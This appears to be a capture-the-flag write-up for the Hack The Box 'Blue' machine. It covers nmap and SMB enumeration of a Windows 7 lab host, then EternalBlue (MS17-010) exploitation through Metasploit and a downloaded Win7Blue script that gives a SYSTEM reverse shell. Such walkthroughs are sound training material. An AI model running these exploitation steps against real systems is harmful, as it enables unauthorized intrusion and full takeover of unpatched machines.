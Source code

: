 # Box: Blue
# Level: Easy
# OS: Windows
<hr>

This is a very easy box, not easy, very easy lool

Lets get started

# Recon

## Portscanning

command:```sudo nmap -A 10.129.110.225 -T4  -v -p-```

```
Nmap scan report for 10.129.110.225
Host is up (0.15s latency).
Not shown: 65513 closed tcp ports (reset)
PORT      STATE    SERVICE      VERSION
47/tcp    filtered ni-ftp
135/tcp   open     msrpc        Microsoft Windows RPC
139/tcp   open     netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
2468/tcp  filtered qip-msgd
6099/tcp  filtered raxa-mgmt
9834/tcp  filtered unknown
19056/tcp filtered unknown
31232/tcp filtered unknown
33400/tcp filtered unknown
37044/tcp filtered unknown
45939/tcp filtered unknown
49152/tcp open     msrpc        Microsoft Windows RPC
49153/tcp open     msrpc        Microsoft Windows RPC
49154/tcp open     msrpc        Microsoft Windows RPC
49155/tcp open     msrpc        Microsoft Windows RPC
49156/tcp open     msrpc        Microsoft Windows RPC
49157/tcp open     msrpc        Microsoft Windows RPC
49393/tcp filtered unknown
49496/tcp filtered unknown
61199/tcp filtered unknown
61779/tcp filtered unknown
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=9/16%OT=135%CT=1%CU=35042%PV=Y%DS=2%DC=T%G=Y%TM=6505D5
OS:1D%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10D%TI=I%CI=I%II=I%SS=S%TS
OS:=7)OPS(O1=M539NW8ST11%O2=M539NW8ST11%O3=M539NW8NNT11%O4=M539NW8ST11%O5=M
OS:539NW8ST11%O6=M539ST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=20
OS:00)ECN(R=Y%DF=Y%T=80%W=2000%O=M539NW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=
OS:S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q
OS:=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A
OS:%A=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Uptime guess: 0.015 days (since Sat Sep 16 16:55:45 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-09-16T16:17:27
|_  start_date: 2023-09-16T15:55:59
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-09-16T17:17:24+01:00
|_clock-skew: mean: -19m57s, deviation: 34m37s, median: 1s

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   148.34 ms 10.10.14.1
2   148.63 ms 10.129.110.225

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
Well from the scan we hav3 3 main ports opened. Our enumeration today will be focused on the port runnint the netbios service.



# Enumeration

Lets start by checking the number of shares available on the smb server

command:```smbclient -L 10.129.110.225```

This is going to prompt you for a password, just hit the ```Enter key``` since we don't have any password

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Blue]
└─$ smbclient -L 10.129.110.225
Password for [WORKGROUP\bl4ck4non]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Share           Disk      
        Users           Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.110.225 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
We have 5 smb shares available on the server

I couldn't find anything after connecting to the shares🥲.

We can check out nmap scripting engine to scan the smb port for potential vulnerabilities

command:```nmap -p 445 --script smb-vuln*.nse 10.129.110.225```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/bad2e7ad-4287-4517-a8ce-7adcfcd7c9d5)

Checking out the CVE we find this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6923c708-17bc-472f-8a64-50392c648e03)

So it is a vulnerability that exists in ```SMBv1```. The vulnerability is  also known as ```EternalBlue```. Well, lets exploit😎




# Exploitation

We can use the metasploit module for this

command:```msfconsole```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/04cc7b9c-0896-4f6c-a88e-6bcfff2f73bf)

Good

command:```search eternalblue```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4411b9d9-3489-466d-bbec-83b29150ce14)

Next,

command:```use exploit/windows/smb/ms17_010_eternalblue```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0aa62370-9387-4a0c-a5fe-5a7aa7cff8a6)

We'll set the RHOSTS and LHOST. RHSOT is the target's IP, while LHOST is our tun0 IP

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/79ef8f25-2b66-4677-a5b3-77cf238d55ac)

Now we can use the ```exploit``` command to exploit

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ff992a9b-e7f7-45dc-abad-36a2fd9577cc)

We got a meterpreter session hehehe

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/bb99258e-33d4-449c-b637-585c72f91b16)

We won't be need privilege escalation, this is because we spawned a shell as the highest privileged user which is ```NT Authority\System```

Lets locate the flag

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/80dabba0-f61c-4d55-85b5-747e07af86cf)

Well that's all


Alright, wait😂. Metasploit??? well, I have some folks who would come for me if they caught me using it😂. So, we'll be doing the manual exploitation also,this is because metasploit is more of automation and all.

Well I found this great exploit, you can download from [here](https://github.com/d4t4s3c/Win7Blue)

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/52f2d875-b76e-4364-a85f-9d17ef713c68)

Now that we made the shell script executable, we can execute it with the command ```./Win7Blue.sh```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/f2bd08d7-b255-4033-9117-4b1c06f3d069)

Our target is a windows 7 with a 64 bits architecture, so we'll be choosing ```3```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/be5e0fe7-aba6-4d78-b910-8f888490fe02)

RHOST should be the target's ip

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4b29c4e8-5f08-421f-89db-415d7a678faa)

LHOST should be your tun0 ip

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/3d763ca9-761a-4b15-b75f-7c470d64481b)

LPORT should be the port you want to listen on, before setting this ensure you have a netcat listener set up already. For example, I plan on using port ```443```, so I have my netcat listener ready 

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c0e9a776-e6b8-4949-9080-2511b6b39b47)

Now, we can provide the LPORT

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2d247926-c529-498e-b6f6-53eea1bcdaca)

Checking the listener we set up,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/bed411f9-6370-4788-aabb-362d3fec8194)

We spwned a shell as user ```NT Authority\System```😎

So, you can choose to either use the metasploit exploitation process or the manual exploitation process🙂


That will be all for today
<br> <br>
[Back To Home](../../index.md)







